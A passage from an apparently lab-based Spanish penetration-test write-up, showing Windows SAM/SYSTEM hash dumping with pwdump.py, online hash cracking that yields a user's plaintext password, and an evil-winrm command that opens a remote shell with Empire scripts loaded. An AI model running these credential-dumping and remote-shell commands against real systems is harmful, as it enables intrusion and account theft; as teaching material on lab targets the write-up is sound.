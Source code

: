 ```python
python3 /opt/Tools/Windows/creddump7/pwdump.py SYSTEM SAM
```

![hashes](/assets/images/report/hashes150.png)

Como vemos en la imagen anterior pudimos obtener los hashes de las cuentas de usuario del sistema, estos hashes los podemos intentar romper en paginas como [crackstation](https://crackstation.net/).

![crack hashes](/assets/images/report/crackhashes.png)

Gracias a esta pagina pudimos obtener una contraseña en texto claro, en este caso del usuario **Thomas**.

### WinRM

Con el siguiente comando podremos obtener una shell como el usuario que creamos anteriormente.

```python
evil-winrm -i 10.200.198.150 -u jch -p jch123 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/
```

En el comando anterior he especificado `-s` que esto permite pasarle como parámetro una ruta donde se alojen `scripts` en `powershell`.
{: .notice--danger}

